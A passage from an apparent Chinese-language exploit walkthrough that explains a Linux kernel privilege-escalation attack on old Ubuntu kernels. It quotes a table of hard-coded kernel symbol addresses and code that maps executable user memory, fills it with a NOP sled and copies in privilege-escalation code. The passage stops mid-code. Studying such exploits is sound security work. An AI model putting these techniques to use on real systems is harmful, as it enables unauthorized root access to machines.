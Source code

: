 大家都知道，在 64 位系统中，由于地址较多，内核空间和用户空间只需通过高几位是否为 0 或 1 进行区分，内核空间地址的范围是`0xffff ffff ffff ffff~0xffff 8000 0000 0000`，而用户空间的地址范围是`0x0000 7ffff ffff ffff~0x0000 0000 0000 0000`。因此只需使用 timeout 的流程将高位的 1 变成 0 即可。

该 exploit 代码使用`net_sysctl_root`结构体的`net_ctl_permissions`函数指针进行利用。由于各个内核版本中不同函数对应的地址不同，因此定义了一个结构体存放各个内核内核版本的函数地址，这样就可以在多个写了特定内核地址的内核上完成提权操作。

```
struct offset {
    char *kernel_version;
    unsigned long dest; // net_sysctl_root + 96
    unsigned long original_value; // net_ctl_permissions
    unsigned long prepare_kernel_cred;
    unsigned long commit_creds;
};

struct offset offsets[] = {
    {"3.11.0-15-generic",0xffffffff81cdf400+96,0xffffffff816d4ff0,0xffffffff8108afb0,0xffffffff8108ace0}, // Ubuntu 13.10
    {"3.11.0-12-generic",0xffffffff81cdf3a0,0xffffffff816d32a0,0xffffffff8108b010,0xffffffff8108ad40}, // Ubuntu 13.10
    {"3.8.0-19-generic",0xffffffff81cc7940,0xffffffff816a7f40,0xffffffff810847c0, 0xffffffff81084500}, // Ubuntu 13.04
    {NULL,0,0,0,0}
};

```

Exploit 程序开始就使用该函数映射结构体对当前内核进行检查，获取出要使用的函数地址指针`offsets[i]`。

然后使用`net_ctl_permissons`的地址进行页对齐，之后将高 6*4 位变成 0，即设定为用户空间地址。

```
 mmapped = (off->original_value  & ~(sysconf(_SC_PAGE_SIZE) - 1));
 mmapped &= 0x000000ffffffffff;

```

之后以该地址为基址 map 一段内存空间，设定该 map 区域可写、可执行。先用 0x90 填充该 map 区域，构造滑梯。然后将提权代码拷贝到该 map 区域。

```
mmapped = (long)mmap((void *)mmapped, sysconf(_SC_PAGE_SIZE)*3, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, 0, 0);

if(mmapped == -1) {
    perror("mmap()");
    exit(-1);
}

memset((char *)mmapped,0x90,sysconf(_SC_PAGE_SIZE)*3);

memcpy((char *)mmapped + sysconf(_SC_PAGE_SIZE), (char *)&trampoline, 300);

if(mprotect((void *)mmapped, sysconf(_SC_PAGE_SIZE)*3, PROT_READ|PROT_EXEC) != 0) {
    perror("mprotect()");
    exit(-1);

```
